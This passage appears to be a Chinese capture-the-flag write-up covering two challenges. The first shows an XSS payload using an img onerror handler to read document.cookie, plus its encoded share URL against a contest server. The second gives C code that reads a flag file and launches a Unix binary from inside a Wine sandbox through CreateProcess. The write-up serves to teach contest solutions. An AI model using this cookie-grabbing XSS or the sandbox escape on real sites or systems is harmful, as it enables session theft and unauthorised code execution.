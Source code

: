 经过尝试，填入 `<script>` 不会被更新。而 [浅谈XSS攻击的那些事](https://zhuanlan.zhihu.com/p/26177815) 中提到可以用 `<img src=1 onerror=` 进行 XSS 攻击

所以构造

```html
<img src="1" onerror=document.querySelector("#greeting").innerHTML=document.cookie>
```

加上 `:`，base64 和 URL 编码后得到

```
http://202.38.93.111:10056/share?result=OjxpbWcgc3JjPSIxIiBvbmVycm9yPWRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoIiNncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU%2B
```

填入提交网站即可获得 flag


<br>

### 14. 杯窗鹅影

#### flag1

`fopen` 直接读

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    // open /flag1 and print it
    FILE* f = fopen("/flag1", "r");
    char buf[100];
    fgets(buf, 100, f);
    printf("%s", buf);
    fclose(f);
    return 0;
}
```

#### flag2

不知道为什么我的电脑上可以，评测机上 `execve` 不行，`execveat` 也不行，而 `execveat` 的汇编也存在 `Permission` 方面的问题

后来尝试用 windows 的 API，把 start.exe 附到代码里，但是评测机上的 start.exe 没有打印输出结果的选项

最后发现用 windows 直接创建进程运行这个文件是可以的

```c
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>

int executeFile() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);

    if (!CreateProcess("\\\\?\\unix\\readflag", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {
        printf("CreateProcess failed (%d)\n", GetLastError());
        return 1;
    }

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}

```
